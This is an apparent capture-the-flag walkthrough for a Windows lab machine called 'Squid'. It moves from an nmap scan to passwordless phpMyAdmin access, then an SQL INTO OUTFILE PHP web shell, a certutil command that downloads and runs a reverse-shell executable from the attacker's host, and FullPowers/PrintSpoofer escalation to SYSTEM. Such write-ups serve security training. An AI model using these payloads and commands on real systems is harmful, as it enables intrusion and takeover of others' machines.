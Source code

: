 # 🏴 Squid (Windows)

## 🧠 Initial Foothold

- Ran a full Nmap scan:
  ```bash
  sudo nmap -Pn -n 192.168.102.189 -sC -sV -p- --open -oN Squid
  ```

- Used `rpcclient`, `enum4linux`, and `smbclient` to enumerate services and shares.

- Identified **Squid Proxy 4.14** running, but no public exploits were available.

- Referred to [HackTricks Squid guide](https://book.hacktricks.wiki/en/network-services-pentesting/3128-pentesting-squid.html) for additional attack vectors.

- Used FoxyProxy to browse internal URLs and found **phpMyAdmin** accessible.

- Logged in as `root` with no password and leveraged MySQL command injection to upload a PHP web shell:
  ```sql
  SELECT "<?php echo shell_exec($_GET['cmd']); ?>" INTO OUTFILE 'c:/wamp/www/webshell.php'
  ```

- Uploaded a reverse shell executable using the web shell:
  ```
  http://192.168.102.189:8080/webshell.php?cmd=certutil -urlcache -f http://192.168.45.229:8080/shell.exe shell.exe
  http://192.168.102.189:8080/webshell.php?cmd=shell.exe
  ```

- Received a shell as a low-privileged service account.

---

## 🚀 Privilege Escalation

- Checked available privileges:
  - `SeChangeNotify`
  - `SeCreateGlobal`

- Downloaded and ran [FullPowers.exe](https://github.com/itm4n/FullPowers/releases) as LOCAL SERVICE to elevate token privileges.

- Regained `SeAssignPrimaryToken` and `SeImpersonate` privileges.

- Used **PrintSpoofer** to escalate to SYSTEM and gain full control.

---

🧼 **Post-Exploitation Note:**  
Clear any dropped files and restore permissions where applicable.

> ⚠️ This walkthrough is for educational purposes only.
